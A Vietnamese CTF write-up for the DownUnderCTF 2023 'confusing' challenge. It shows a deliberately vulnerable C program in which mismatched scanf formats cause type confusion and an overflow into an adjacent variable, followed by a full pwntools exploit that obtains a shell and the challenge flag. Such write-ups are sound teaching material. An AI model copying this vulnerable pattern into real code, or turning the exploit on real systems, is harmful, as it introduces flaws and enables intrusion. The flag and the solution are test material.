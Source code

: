 # confusing

1 chall làm mình đau đầu cực 

## source C

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

int main() {
    init();

    short d;
    double f;
    char s[4];
    int z; 

    printf("Give me d: ");
    scanf("%lf", &d);

    printf("Give me s: ");
    scanf("%d", &s);

    printf("Give me f: ");
    scanf("%8s", &f);

    if(z == -1 && d == 13337 && f == 1.6180339887 && strncmp(s, "FLAG", 4) == 0) {
        system("/bin/sh");
    } else {
        puts("Still confused?");
    }
}
```

nhiệm vụ đơn giản là ta chỉ cần cho **z = -1 && d = 13337 && f = 1.6180339887 và s = FLAG** là có shell

ở đây ta để ý thì **short d chỉ có 2 byte**, nhưng mà lại cho phép nhập là **scanf("%lf", &d)**, %lf là của double có 8byte, **đây có thể gọi là lỗi BOF vì ta có thể tràn được 6byte**

## Khai thác

bây giờ ta cứ thử debug xem sao

![image](https://github.com/gookoosss/CTF/assets/128712571/547f583e-65a4-420c-a550-6f99554345ea)


lúc này ta **nhập d vào địa chi 0x007fffffffe042**

![image](https://github.com/gookoosss/CTF/assets/128712571/62ca3109-76f8-413e-970d-af78cd679b01)


ta tìm được **địa chỉ của z là 0x7fffffffe044** và kế bên thằng d, lúc này ta nhảy ra liền ý tưởng là **lợi dụng lỗi BOF của thằng d để tràn biền ghi đè 4 byte thằng z thành 0xffffffff**

```python 
p16(0x3419) + b'\xff\xff\xff\xff'
```

có ý tưởng là vậy nhưng mà mình làm mãi mà ko thể nào chèn được đúng ý mình, nên mình đành tham khảo writeup của BTC:

https://github.com/DownUnderCTF/Challenges_2023_Public/tree/main/beginner/confusing

```python
p.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(0x3419) + b'\xff\xff\xff\xff' + b'\xff\xfe')[0]).encode())
```

![image](https://github.com/gookoosss/CTF/assets/128712571/fc0e9994-1631-4e9e-93b3-8c903318c3f6)


- **hmm tóm tắt lại những gì mình hiểu là:** thứ ta mong muốn gán vào là **p16(0x3419) + b'\xff\xff\xff\xff' (6 byte)** , nhưng scanf muốn ta gửi kiểu dữ liệu là double nên **ta phải biến nó thành double bằng struct.unpack('d', byte)[0]** *(ép byte ta gửi vào thành double)*, nhưng mà **unpack() chỉ nhận đủ 8byte** nên ta sẽ cho **thêm 2 byte cuối là b'\xff\xfe'**

- giải quyết xong thằng d và z rồi thì tiếp theo là thằng **s == 'FLAG', cái này thì đơn giản**

```python 
p.sendlineafter(b'Give me s: ', str(u32(b'FLAG')))
```

- cuối cùng là thằng f, **nó yêu cầu ta nhập kiểu dữ liệu string**, ta phải sử dụng **pack()** rồi
```python 
p.sendlineafter(b'Give me f: ', struct.pack('d', 1.6180339887))
```

![image](https://github.com/gookoosss/CTF/assets/128712571/1519a00e-7fa3-47f2-af84-27a6f3d658fb)


hiểu đơn giản như này, ở trên ta dùng **unpack() để chuyển từ dạng byte sang double**, thì ở đây **pack() sẽ ngược lại, nó sẽ chuyển từ dạng double sang byte** cho ta và ta có thể gán vào cho f thoải mái

dee cuối cùng là lấy shell thôi 

![image](https://github.com/gookoosss/CTF/assets/128712571/4cb7ea7e-5d9f-4f37-89fb-8ee9413ee553)


## script 

```python
from pwn import *

# p = process('./confusing')
p = remote('2023.ductf.dev', 30024)
exe = ELF('./confusing')

# gdb.attach(p, gdbscript = '''
# b*main+73
# b*main+114
# b*main+155
# c
# ''')

input()

# b'\xff\xff\xff\xff' == Z == 0xffffffff == -1
# p16(0x3419) == D == 13337

p.sendlineafter(b'Give me d: ', str(struct.unpack('d', p16(0x3419) + b'\xff\xff\xff\xff' + b'\xff\xfe')[0]).encode())
p.sendlineafter(b'Give me s: ', str(u32(b'FLAG')))
p.sendlineafter(b'Give me f: ', struct.pack('d', 1.6180339887))

p.interactive()

# DUCTF{typ3_c0nfus1on_c4n_b3_c0nfus1ng!}
```

## Flag

DUCTF{typ3_c0nfus1on_c4n_b3_c0nfus1ng!}

